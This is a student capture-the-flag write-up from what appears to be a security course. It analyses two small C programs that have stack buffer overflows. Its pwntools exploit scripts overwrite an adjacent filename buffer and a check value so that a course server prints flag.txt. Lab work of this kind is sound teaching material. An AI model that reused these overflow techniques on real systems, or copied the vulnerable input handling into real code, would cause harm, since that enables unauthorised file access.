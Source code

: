 # FSI-CTFS: Week #5

**Goal:** Come up with an exploit to cause a buffer overflow on the program running in the server.

### **First Challenge**

#### **Checksec**

- Architecture is x86
- No cannaries in the stack
- Stack has execute permissions (NX -no execute- disabled)
- No address randomization
- Regions in the memory with RWX permissions


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes
- After 20 bytes/chars, write the name of file you want to be open (flag.txt)
- By editing the given python script, we can achieve our goal as shown below


**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1234567890123456789\0flag.txt")
r.interactive()
``` 

![Terminal print of attack and checksec](imgs/flag1.png)

### **Second Challenge**


#### **Checksec**

> Checksec gives the same information as the program in the first challenge

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit once again

**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

string = bytearray(b"12345678901234567890")
string.append(0x23)
string.append(0x22)
string.append(0xfc)
string.append(0xfe)
string.extend(b"flag.txt")

r.recvuntil(b":")
r.sendline(string)
r.interactive()
```

> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)
